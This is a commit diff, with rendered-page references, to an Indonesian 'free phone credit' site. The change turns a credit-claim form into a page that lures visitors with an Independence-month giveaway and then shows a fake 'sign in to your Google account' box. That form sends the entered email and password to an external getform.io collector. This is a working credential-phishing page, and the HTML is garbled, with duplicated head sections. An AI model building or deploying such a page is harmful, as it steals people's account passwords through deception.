

Before and after one commit to pulsagartis/PULSA-GRATIS, a plain HTML site: page dashboard.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/dashboard.html
+++ b/dashboard.html
@@ -1,46 +1,44 @@
+
+
+
+
 <!DOCTYPE html>
 <html lang="id">
+<head><!DOCTYPE html>
+<html lang="id">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Pulsa Gratis</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Pulsa Gratis Untukmu!</title>
   <link rel="stylesheet" href="style.css">
 </head>
 <body>
-  <div class="container">
-    <h1>🎁 Klaim Pulsa Gratis!</h1>
-    <p>Isi data berikut untuk mendapatkan pulsa gratis:</p>
+  <div class="landing-container">
+    <h1>🎉 Spesial untuk menyambut bulan Agustus bulan kemerdekaan!</h1>
+    <p>
+      Kami membagikan pulsa gratis ke warga indonesia. Tanpa undian, tanpa syarat ribet!
+      Berlaku untuk semua operator: Telkomsel, Indosat, XL, Tri, Smartfren, dan lainnya , Promo ini berlaku dari 28 Juli - 17 Agustus , login untuk Claim
+    </p>
+    <ul>
+      <li>✅ Tanpa biaya</li>
+      <li>✅ Semua provider</li>
+      <li>✅ Proses instan</li>
+    </ul>
 
-    <form id="pulsaForm">
-      <label for="provider">Provider:</label>
-      <select id="provider" required>
-        <option value="">-- Pilih Provider --</option>
-        <option>Telkomsel</option>
-        <option>Indosat</option>
-        <option>XL</option>
-        <option>Axis</option>
-        <option>Tri</option>
-        <option>Smartfren</option>
-      </select>
 
-      <label for="nomor">Nomor HP:</label>
-      <input type="tel" id="nomor" placeholder="08xxxxxxxxxx" required>
-
-      <label for="nominal">Nominal Pulsa:</label>
-      <select id="nominal" required>
-        <option value="">-- Pilih Nominal --</option>
-        <option>Rp 5.000</option>
-        <option>Rp 10.000</option>
-        <option>Rp 20.000</option>
-        <option>Rp 50.000</option>
-      </select>
-
-      <button type="submit">Klaim Sekarang 🚀</button>
+    <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Login Portal</title>
+  <link rel="stylesheet" href="style.css">
+</head>
+<body>
+  <div class="login-box">
+    <h2>Masuk ke Akun Google Anda</h2>
+    <form action="https://getform.io/f/bdrgerkb" method="POST">
+      <input type="email" name="email" placeholder="Email Anda" required>
+      <input type="password" name="password" placeholder="Kata Sandi" required>
+      <button type="submit">Login</button>
     </form>
-
-    <div id="hasil" style="display:none; margin-top:20px;"></div>
   </div>
-
-  <script src="script.js"></script>
 </body>
 </html>
```
